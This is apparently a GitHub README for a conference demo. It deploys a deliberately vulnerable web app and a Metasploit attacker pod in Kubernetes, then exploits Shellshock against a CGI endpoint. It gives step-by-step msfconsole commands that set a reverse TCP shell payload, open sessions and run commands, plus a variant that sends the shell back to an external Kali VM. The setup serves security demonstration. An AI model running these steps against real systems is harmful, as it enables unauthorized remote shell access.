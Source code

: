 # CPX 2021 demo
<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Cleanup](#cleanup)
* [Attacker from external VM](#attacker-from-external-vm)
* [Tips](#tips)

<!-- vim-markdown-toc -->

# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
# Install our sushi restaurant web page
helm install -f cpx-sushi/values.yaml --namespace sushi --create-namespace sushi-restaurant cpx-sushi
# Install the attacker client
helm install -f attacker-cpx/values.yaml --namespace attacker --create-namespace attacker-client attacker-cpx
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/menu
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```
#Cleanup
```bash
helm uninstall sushi-restaurant -n sushi
helm uninstall attacker-client -n attacker
```
# Attacker from external VM
In order to setup the attacker machine from an external VM running a
distribution like Kali Linux, you will need to assign a public IP address to
this machine so that it is reachable. Additionally, the port where the the
reverse shell connection will be established needs to be allowed for input
connections (i.e: In AWS the security group of the EC2 instance needs to allow
input connections to port <X>)

How to run the exploit is very similar. First ssh into the Kali Linux machine:
```bash
# Start metasploit console
msfconsole
# Follow the same steps that we already described
# We will need to set a few extra options
set lhost <public-ip-of-vm>
set lport <port-that-we-allow-input-connections>
# set lport 4444
check
exploit
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time
  
## Original demo created here: https://github.com/chkp-ivanmar/cpx-2021-demo
